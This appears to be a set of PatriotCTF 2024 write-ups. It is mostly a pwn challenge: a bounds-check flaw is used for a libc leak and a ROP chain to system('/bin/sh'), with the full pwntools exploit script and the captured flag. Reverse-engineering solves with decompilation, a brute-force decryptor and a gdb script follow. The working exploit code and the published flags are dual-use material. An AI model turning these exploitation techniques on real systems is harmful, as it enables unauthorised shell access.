    NX:       NX enabled
    PIE:      PIE enabled
```
All protections are enabled. Not a good news for us!

The program has three options:
1. Set Pin
2. View Pin
3. Quit



The Ghidra decompilation of some functions of interest.




`setPin` stores the input character in a global array. The `viewPin` function reads the character from the global array and prints it. The main function calls these functions based on the user input.

### Solution
The vulnerability lies in the bounds check of both `setPin` and `viewPin` functions. 

The global array size is 328 bytes.   
The bounds check done by `setPin`  
```c
  if (iVar1 < 0x321) { // 0x321 = 801
    printf("Pin character >> ");
    fgets(local_28,0x10,stdin);
    *(char *)(iVar1 + param_1) = local_28[0];
  }
```
We can see that `setPin` clearly has wrong bounds check using which we can do arbitary write of one character at a time to any stack address beyond the global array. Using this, we can overwrite the return address of `main` function to execute a ROP chain. To fully exploit this, we need to return to `libc` function, for which we don't know the address because of ASLR. 

The bounds check done by `viewPin`  
```c
  if (0x13f < local_30) { // 0x13f = 319
    local_30 = 0x13f;
  }
```
While the `viewPin` bounds check looks correct at first, it doesn't take negative values into account. We can use this to leak any stack address (that is lower than the global array).

We can leak any glibc address from stack using `viewPin` function and then calculate the address of `libc` base. Then we can call `system('/bin/sh')` using ROP chain by exploiting `setPin`.

#### exploit.py
```python
from pwn import *

context.log_level = 'info'
context.terminal = ['tmux', 'splitw', '-v']
context.arch = 'x86_64'

target = './navigator'
target_elf = ELF(target)
# libc = ELF('./libc.so.6')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# io = process(target)
# io = gdb.debug(target, gdbscript='''
# b *main+250
# continue
# ''')
io = remote('chal.competitivecyber.club', 8887)

# setPin to bring some glibc function addresses to stack
info(io.recvrepeat(1))
io.sendline(b'1')
io.sendline(b'5')
io.sendline(b'A')

# viewPin can leak one byte at a time. Leak 8 bytes from stack offset -129 (calcuated from gdb)
val = bytearray()
for i in range(8):
    info(io.recvrepeat(1))
    io.sendline(b'2')
    io.sendline(b'-' + str(129 + i).encode())
    info(io.recvuntil(b'Pin:'))
    io.recvline()
    val += io.recvline().strip()

libc.address = int.from_bytes(val, 'big') - 276052
info(f'libc.address: {hex(libc.address)}')

# ROP chain to call system('/bin/sh')
rop = ROP([libc])
rop.raw(rop.find_gadget(['ret'])) # padding for stack 16-byte alignment
rop.system(next(libc.search(b'/bin/sh\x00')))
info(rop.dump())
rop_chain = rop.chain()

# setPin to write ROP chain to return address at stack offset 344 (calculated from gdb)
i = 0
for p in bytearray(rop_chain):
    info(io.recvrepeat(1))
    io.sendline(b'1')
    io.sendline(str(344 + i).encode())
    i = i + 1
    io.sendline(bytes([p]))

# quit menu to trigger ROP chain
io.sendline(b'3')

info(io.recvrepeat(1))
io.sendline(b'cat flag.txt')
info(io.recvrepeat(1))
io.close()
```
### Flag
```bash
ramenhost@ctf$ python3 exploit.py 
[*] '/home/ramenhost/Git/ctf-writeups/patriot-ctf-2024/pwn/navigator/navigator'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.competitivecyber.club on port 8887: Done
[*] pctf{th4t_w45_ann0ying_014d0a7cb3d}
[*] Closed connection to chal.competitivecyber.club port 8887
```

---

## Challenge: rev/password-protector

We've been after a notorious skiddie who took the "Is it possible to have a completely secure computer system" question a little too literally. After he found out we were looking for them, they moved to live at the bottom of the ocean in a concrete box to hide from the law. Eventually, they'll have to come up for air...or get sick of living in their little watergapped world. They sent us this message and executable. Please get their password so we can be ready.

"Mwahahaha you will nOcmu{9gtufever crack into my passMmQg8G0eCXWi3MY9QfZ0NjCrXhzJEj50fumttU0ympword, i'll even give you the key and the executable:::: Zfo5ibyl6t7WYtr2voUEZ0nSAJeWMcN3Qe3/+MLXoKL/p59K3jgV"

**Given:** `passwordProtector.pyc`

### Solution

I used [pycdc](https://github.com/zrax/pycdc) to decompile the `passwordProtector.pyc` file. Since, it uses `python 3.11`, multiple new opcodes were not supported and the decompilation kept failing as Unsupported Opcode. I had to apply patches from https://github.com/zrax/pycdc/issues/516 and https://github.com/zrax/pycdc/pull/472/files to get the decompilation to work.

#### passwordProtector.py (decompiled from passwordProtector.pyc)

```python
# https://github.com/zrax/pycdc
# Apply patches: https://github.com/zrax/pycdc/issues/516 and https://github.com/zrax/pycdc/pull/472/files

# Source Generated with Decompyle++
# File: passwordProtector.pyc (Python 3.11)

import os
import secrets
from base64 import *

def promptGen():
    
    flipFlops = lambda x: chr(ord(x) + 1)
    with open('topsneaky.txt', 'rb') as f:
        first = f.read()
        None(None, None)
    with None:
        with None:
            if not None:
                pass
    bittys = secrets.token_bytes(len(first))
    onePointFive = int.from_bytes(first) ^ int.from_bytes(bittys)
    second = onePointFive.to_bytes(len(first))
    third = b64encode(second).decode('utf-8')
    bittysEnc = b64encode(bittys).decode('utf-8')
    fourth = ''
    for each in third:
        fourth += flipFlops(each)
        fifth = f'''Mwahahaha you will n{fourth[0:10]}ever crack into my pass{fourth[10:]}word, i\'ll even give you the key and the executable:::: {bittysEnc}'''
        return fifth


def main():
    print(promptGen())

if __name__ == '__main__':
    main()

```

After this, we can just reverse the `promptGen()` function to get the flag.

#### solve.py
```python
import base64

fourth = 'Ocmu{9gtuf' + 'MmQg8G0eCXWi3MY9QfZ0NjCrXhzJEj50fumttU0ymp'
bittysEnc = 'Zfo5ibyl6t7WYtr2voUEZ0nSAJeWMcN3Qe3/+MLXoKL/p59K3jgV'

bittys = base64.b64decode(bittysEnc)
flipFlops_inv = lambda x: chr(ord(x) - 1)
third = ''
for each in fourth:
    third += flipFlops_inv(each)
second = base64.b64decode(third)
onePointFive = int.from_bytes(second, 'big') ^ int.from_bytes(bittys, 'big')
print(onePointFive.to_bytes(len(second), 'big').decode())
```

### Flag
```bash
ramenhost@ctf$ python3 solve.py 
PCTF{I_<3_$3CUR1TY_THR0UGH_0B5CUR1TY!!}
```

---

## Challenge: rev/puzzle-room

As you delve deeper into the tomb in search of answers, you stumble upon a puzzle room, its floor entirely covered in pressure plates. The warnings of the great necromancer, who hid his treasure here, suggest that one wrong step could lead to your doom.

You enter from the center of the eastern wall. Although you suspect you’re missing a crucial clue to guide your steps, you’re confident that everything you need to safely navigate the traps is already within reach.

At the center of the room lies the key to venturing further into the tomb, along with the promise of powerful treasures to aid you on your quest. Can you find the path, avoid the traps, and claim the treasure (flag) on the central platform?

**Given:** `puzzle_room.py`

### Analysis
The given file `puzzle-room.py` contains a game where the player has to navigate through a grid of tiles. The player starts at the center of the eastern wall and has to reach the center of the room. The player can only move to adjacent tiles and can only move to a tile if the tile name is not already in the history. The player has to reach the center of the room in 4 or more steps.



When the player reaches the center of the room, the flag is decrypted using the key generated from the history of tiles visited by the player. While there could be many possible paths to reach the center of the room, the flag is decrypted only if the history of tiles visited by the player is correct.

### Solution

We can solve this problem by brute-forcing the tiles visited by the player. We know that the player starts at "vulture" and ends at "Shrine". We can remove these tiles from the list of tiles to be visited. We can then brute-force all possible paths that can be taken by a player and try to decrypt the flag using the key generated from the history of tiles visited.

#### solve.py

```python
import base64
import hashlib
from Crypto import Random
from Crypto.Cipher import AES
import itertools

# copy AESCipher class from puzzle-room.py
# class AESCipher(object):
#     def __init__(self, key):
#         self.bs = AES.block_size
#         ....
#         ....

# all words from puzzle-room.py grid variable
wordlist = ["SPHINX","urn","vulture","arch","snake","urn","bug","plant","arch","staff","SPHINX","plant","foot","bug","plant",
            "vulture","foot","staff","vulture","plant","foot","bug","arch","staff","urn","Shrine","Shrine","Shrine","plant",
            "bug","staff","urn","arch","snake","vulture","foot","Shrine","Shrine","Shrine","urn","snake","vulture","foot","vulture",
            "staff","urn","bug","Shrine","Shrine","Shrine","foot","staff","bug","snake","staff","snake","plant","bug","urn","foot",
            "vulture","bug","urn","arch","foot","urn","SPHINX","arch","staff","plant","snake","staff","bug","plant","vulture","snake","SPHINX",
]

wordlist = set(wordlist) # history cannot have tiles with same name
wordlist.remove("Shrine") # end
wordlist.remove("SPHINX") # corners not allowed
wordlist.remove("vulture") # start

# enc_flag from puzzle-room.py try_get_tile()
enc_flag = b"FFxxg1OK5sykNlpDI+YF2cqF/tDem3LuWEZRR1bKmfVwzHsOkm+0O4wDxaM8MGFxUsiR7QOv/p904UiSBgyVkhD126VNlNqc8zNjSxgoOgs="

# we start at "vulture" and end at "Shrine". Brute force tiles in-between
# 4 or more steps needs to reach Shrine
for n in range(4, len(wordlist) + 1):
    for perm in itertools.permutations(wordlist, n):
        brute = ''.join(perm)
        key = "vulture" + brute + "Shrine"
        obj = AESCipher(key)
        try:
            dec_flag = obj.decrypt(enc_flag)
            if "pctf" in dec_flag:
                print(dec_flag)
                exit(0)
        except Exception:
            continue
```

### Flag
```bash
ramenhost@ctf$ python3 solve.py 
pctf{Did_you_guess_it_or_apply_graph_algorithms?}
```

---

## Challenge: rev/revioli-revioli-give-me-the-formeoli

Can you unlock the secret formula?

**Given:** `revioli`

### Analysis

The given file `revioli` is a 64-bit ELF executable. It asks for a password from the user.
```bash
ramenhost@ctf$ ./revioli 
Enter-a the password-a: Idontknow
No toucha my spaget!
```

The Ghidra decompilation of the main function is shown below.  


### Solution

The executable reads a password from the user and compares it with a generated string. If the strings match, the executable prints the flag. 
Instead of analyzing the password generation logic (`gen_correct_flag()`and `assemble_flag()`), we can use `gdb` to get the second argument of `strcmp()` call. According to x86-64 calling convention, the second argument is stored in `rsi` register.

#### solve.gdb
```
break main
run
break strcmp
continue
printf "%s\n", $rsi
quit
```
run using `gdb -quiet -x solve.gdb ./revioli </dev/null` to get the correct password.

### Flag
```bash
ramenhost@ctf$ gdb -quiet -x solve.gdb ./revioli </dev/null 2>/dev/null | tail -n1 | ./revioli 
Enter-a the password-a: Congratulations! The flag is: PCTF{ITALY_01123581321345589144233377
```
